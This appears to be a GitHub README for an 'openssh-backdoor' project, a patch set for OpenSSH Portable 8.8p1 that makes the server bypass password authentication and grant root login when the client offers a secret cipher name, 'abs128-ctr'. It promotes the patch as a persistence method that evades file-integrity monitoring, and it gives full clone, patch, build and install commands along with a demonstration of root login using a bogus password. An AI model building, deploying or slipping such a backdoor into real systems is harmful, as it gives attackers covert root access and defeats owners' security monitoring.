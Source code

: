 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. Patch for OpenSSH Portable v8.8_p1. For educational/ethical purposes only!

## Why?

Consider using this method when you want persistence, but:

 - FIM is monitoring configuration files, but not binaries
 - You don't want to create a new backdoor user 
 - You don't want to deploy a reverse shell

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server endpoint, adding new users, overwriting credentials, etc. The patch creates a special cipher suite, in this case `abs128-ctr`, that acts as an activation phrase for the backdoor. The OpenSSH client is modified to allow for this new cipher suite string to be sent, and the OpenSSH server, upon receiving the special cipher suite string, will bypass PASSWD authentication for the session. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server in `/usr/local/sbin/sshd`. 

```
git clone https://github.com/openssh/openssh-portable
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable/
cd openssh-portable/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u servconf.c -i servconf.c.patch
autoreconf
./configure --bindir=/tmp/
make -j 16
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /usr/local/sbin/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
```

